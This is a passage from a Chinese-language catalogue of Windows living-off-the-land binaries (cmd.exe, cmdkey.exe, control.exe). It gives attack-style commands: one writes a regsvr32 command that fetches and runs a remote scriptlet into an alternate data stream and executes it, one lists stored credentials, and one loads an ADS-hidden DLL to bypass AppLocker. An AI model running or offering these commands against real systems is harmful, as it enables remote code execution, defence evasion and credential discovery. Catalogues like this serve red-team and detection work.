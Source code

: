  
 windows命令行程序。
 
文件路径:
```
C:\Windows\System32\cmd.exe
C:\Windows\SysWOW64\cmd.exe
```
- 执行方式：
```
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
cmd.exe - < fakefile.doc:payload.bat
```
- 参考资料：
```
https://twitter.com/yeyint_mth/status/1143824979139579904
```
## Cmdkey.exe
- 使用说明：
创建、列出和删除存储的用户名以及密码或凭据。

文件路径:
```
C:\Windows\System32\cmdkey.exe
C:\Windows\SysWOW64\cmdkey.exe
```
- 执行方式：
```
cmdkey /list
```
- 参考资料：
```
https://www.peew.pw/blog/2017/11/26/exploring-cmdkey-an-edge-case-for-privilege-escalation
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey
```
## Control.exe
- 使用说明：

用于在Windows中启动控制面板项目的程序。

文件路径:
```
C:\Windows\System32\control.exe
C:\Windows\SysWOW64\control.exe
```
- 执行方式：
```
control.exe c:\windows\tasks\file.txt:evil.dll
```
- 参考资料：
```
https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
https://www.contextis.com/resources/blog/applocker-bypass-registry-key-manipulation/
https://twitter.com/bohops/status/955659561008017409
https://docs.microsoft.com/en-us/windows/desktop/shell/executing-control-panel-items
https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/
```
## Csc.exe
- 使用说明：
